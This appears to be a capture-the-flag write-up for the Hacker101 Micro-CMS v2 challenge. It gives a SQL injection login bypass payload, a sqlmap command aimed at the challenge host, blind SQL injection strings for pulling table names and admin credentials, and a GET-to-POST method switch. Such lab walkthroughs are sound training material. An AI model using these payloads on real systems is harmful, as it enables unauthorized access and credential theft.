





# Micro-CMS v2 Challenge Writeup

## Introduction

This challenge involves bypassing login filters and exploiting SQL injection to access flags.



The challenge has filters on edit and create functions, requiring login bypass to view the flag.

## Flag 1: Login Bypass

1. Use SQL injection in the username parameter to bypass authentication.




2. Payload: `username=hihi'or+1=1#&password=uis`
   - Note: Password is processed separately, not in the same SQL query.

3. SQL Query: `SELECT * FROM users WHERE username='[username]' AND password='[password]'`
   - Password comparison happens in different code.

## Database Enumeration

Use sqlmap for automated exploitation:

```
sqlmap -u 'https://31862438048cd9c1b73800255a44233b.ctf.hacker101.com/login' --method POST --data "username=FUZZ&password=" -p username --level 2 --technique T --random-agent --dbs
```

Manual exploitation with BurpSuite:

- Check table length: `username=hihi'or+(select+length(table_name)+from+information_schema.tables+WHERE+table_schema=database()+limit+0,1)>0#&password=uis`
- Extract table name: `username=hihi'or+(select+ascii(substring(table_name,1,1))+from+information_schema.tables+WHERE+table_schema=database()+limit+1,1)=0#&password=uis`
- Check admins table: `username=hihi'or+(select+length(username+from+admins+limit+0,1)>0#&password=uis`
- Extract credentials: `username=hihi'or+(select+ascii(substring(username,1,1))+from+admins+limit+0,1)=0#&password=uis`

Repeat for password and page table to reveal Flag 2.

## Flag 3: Method Manipulation

1. Access `/page/edit/2`.
2. Change request method from GET to POST to edit the page.




Hint: "What do you call the last level that now I can't do the same."
